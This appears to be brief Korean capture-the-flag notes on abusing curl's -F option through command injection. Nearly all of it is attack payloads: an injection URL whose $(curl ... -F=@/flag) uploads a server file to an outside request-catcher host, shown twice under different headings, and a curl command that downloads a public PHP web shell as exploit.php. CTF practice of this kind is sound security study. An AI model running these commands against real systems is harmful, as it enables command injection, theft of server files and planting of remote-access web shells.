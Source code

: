 

# `-F`옵션
- 파일 내용 유출
```
http://34.146.180.210:3000/chall?url[raw]=$(curl%20https://kcvztrl.request.dreamhack.games%20-F=@/flag)
```

- 파일 자체 확인
```
http://34.146.180.210:3000/chall?url[raw]=$(curl%20https://kcvztrl.request.dreamhack.games%20-F=@/flag)
```

- 파일 작성
```
curl <https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php> -o ./exploit.php
```